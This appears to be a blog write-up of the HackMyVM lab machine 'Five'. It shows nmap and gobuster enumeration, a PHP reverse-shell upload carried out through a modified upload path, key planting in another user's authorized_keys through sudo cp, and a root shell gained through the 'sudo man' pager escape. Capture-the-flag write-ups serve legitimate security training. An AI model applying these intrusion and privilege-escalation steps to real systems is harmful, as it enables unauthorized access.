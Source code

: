 ```yaml
---
layout: post
author: maxin
title:  "Five"
date:   2022-01-01 09:27:06 PM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Five)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Tue Dec 28 20:31:18 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.250
Nmap scan report for 192.168.0.250
Host is up (0.018s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
| http-robots.txt: 1 disallowed entry 
|_/admin
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.14.2
|_http-title: 403 Forbidden

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 28 20:31:25 2021 -- 1 IP address (1 host up) scanned in 6.87 seconds
{% endhighlight  %}

# Port 80

Home page return a 403 code. So start to fuzzing

{% highlight bash %}
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.170
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2021/12/29 14:35:09 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 185] [--> http://192.168.0.170/uploads/]
/admin                (Status: 301) [Size: 185] [--> http://192.168.0.170/admin/]  
/upload.php           (Status: 200) [Size: 48]                                     
/upload.html          (Status: 200) [Size: 346]                                    
/robots.txt           (Status: 200) [Size: 17]
{% endhighlight  %}

## upload.html

![Untitled](/images/five/upload.png)

Upload a php reverse shell 

Intercept the request and go to the final of the request. Change the `uploads/` to `./` a

![Untitled](/images/five/reverse1.png) | ![Untitled](/images/five/reverse2.png)

Start the listerner and access `$IP/reverse.php`

![Untitled](/images/five/reverse3.png)

# User

{% highlight bash %}
sudo -l
User www-data may run the following commands on five:
    (melisa) NOPASSWD: /bin/cp
{% endhighlight  %}

Putting our private key to melisa’s authorized_keys

{% highlight bash  %}
ssh-keygen -f melisa
sudo -u melisa cp melisa.pub /home/melisa/.ssh/authorized_keys
{% endhighlight  %}

### SSH

Has a service running on port 4444

{% highlight bash  %}
netstat -tunlp
tcp        0      0 127.0.0.1:4444          0.0.0.0:*               LISTEN      -
{% endhighlight  %}

We can check using nc

![Untitled](/images/five/port4444.png)

{% highlight bash  %}
ssh -i melisa melisa@127.0.0.1 -p 4444
{% endhighlight  %}

# Root

{% highlight bash %}
sudo -l

User melisa may run the following commands on five:
    (ALL) SETENV: NOPASSWD: /bin/pwd, /bin/arch, /bin/man, /bin/id, /bin/rm, /bin/clear
{% endhighlight  %}

We can use man binary to spawn a shell has a root

{% highlight bash  %}
sudo man -P less man # -P it's use to select the pager 
!/bin/sh 
{% endhighlight  %}